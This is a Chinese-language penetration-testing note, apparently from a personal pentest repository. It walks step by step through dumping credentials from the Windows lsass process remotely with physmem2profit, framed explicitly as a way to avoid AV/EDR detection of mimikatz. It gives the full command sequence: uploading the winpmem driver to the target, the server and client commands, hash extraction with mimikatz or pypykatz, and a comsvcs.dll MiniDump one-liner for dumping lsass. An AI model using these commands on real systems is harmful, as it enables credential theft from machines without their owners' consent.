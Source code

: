 	https://github.com/FSecureLABS/physmem2profit
	mimikatz被多数安全人员用来获取凭据，但现在的AV/EDR很轻易的识别并查杀，这里不在服务器端使用mimikatz，远程对lsass进程进行转储。
	服务器端直接使用visual studio构建
	physmem2profit-public\server\
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/691.png)

	客户端
	>git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git
	客户端这里先安装
	>bash physmem2profit/client/install.sh
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/692.png)

	需要将此文件
	https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys
	传到目标服务器，我这里存放在c:\windows\temp\中
	服务器端执行
	>Physmem2profit.exe --ip 192.168.0.98 --port 8888 –verbose这里的IP是服务器端IP
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/693.png)

	攻击端安装所需模块
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/694.png)

	攻击端执行
	>source physmem2profit/client/.env/bin/activate
	>cd physmem2profit/client
	>python3 physmem2profit --mode all --host 192.168.0.98 --port 8888 --drive winpmem --install 'c:\windows\temp\att_winpmem_64.sys' --label test
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/695.png)

	服务器端可以看到
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/696.png)

	把生成的dmp文件转移到win系统上使用mimikatz即可获得hash，当然也可以在linux上使用pypykatz。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/697.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/698.png)

	再来一条转储lsass进程的命令
	要以system权限执行
	>rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/699.png)